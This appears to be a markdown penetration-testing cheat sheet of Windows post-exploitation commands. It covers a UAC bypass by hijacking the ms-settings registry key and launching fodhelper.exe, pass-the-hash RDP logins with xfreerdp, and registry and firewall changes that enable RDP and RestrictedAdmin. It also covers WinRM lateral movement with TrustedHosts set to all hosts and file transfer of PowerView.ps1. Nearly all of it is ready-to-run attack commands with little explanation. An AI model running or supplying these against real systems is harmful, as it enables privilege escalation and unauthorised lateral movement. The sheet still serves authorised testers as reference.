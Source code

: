 * Check
   * `whoami /groups`
   * `Mandatory Label\Medium Mandatory Level`
* Exploit
   * `New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell -Force`
   * `New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force`
   * `C:\Windows\System32\fodhelper.exe`
* Check
   * `whoami /groups`
   * `Mandatory Label\High Mandatory Level`


## Lateral - RDP (port 3389)

* Rdesktop
  * `rdesktop -d <domain> -u <user> -p <pass> <target>`
* Xfreerdp
  * `xfreerdp /d:<domain> /u:<user> /p:<pass> /v:<target> /cert-ignore /dynamic-resolution`
  * `xfreerdp /d:<domain> /u:<user> /pth:<hash> /v:<target> /cert-ignore /dynamic-resolution`
  * Optional shared drive: `/drive:home,/home/kali/temp/`
* Enable PTH
   * `New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name "DisableRestrictedAdmin" -Value "0" -PropertyType DWORD -Force`
* Enable Remote Desktop connections
   * `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0`
* Enable Network Level Authentication (NLA)
   * `Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "UserAuthentication" -Value 1`
* Enable Windows firewall rules to allow incoming RDP
   * `Enable-NetFirewallRule -DisplayGroup "Remote Desktop"`
* Non-admin users
   * `Add-LocalGroupMember -Group "Remote Desktop Users" -Member <user>`


## Lateral - WinRM (port 5985)

* Enable PowerShell Remoting on the target (box needs to be compromised first)
   * `Enable-PSRemoting -force`
* Check if a given system is listening on WinRM port
   * `Test-NetConnection <IP> -CommonTCPPort WINRM`
* Trust all hosts
   * `Set-Item WSMan:\localhost\Client\TrustedHosts -Value * -Force`
* Check what hosts are trusted
   * `Get-Item WSMan:\localhost\Client\TrustedHosts`
* Execute command on remote host
   * `Invoke-Command <host> -Credential $cred -ScriptBlock {Hostname}`
* Interactive session with explicit credentials
   * `Enter-PSSession <host> -Credential <domain>\<user>`
* Interactive session using Kerberos:
   * `Enter-PSSession <host> -Authentication Kerberos`
* Upload file to remote session
   * `Copy-Item -Path C:\Windows\Tasks\PowerView.ps1 -Destination C:\Windows\Tasks\ -ToSession (Get-PSSession)`
* Download file from remote session
   * `Copy-Item -Path C:\Users\Administrator\Desktop\test.txt -Destination C:\Windows\Tasks\ -FromSession (Get-PSSession)`
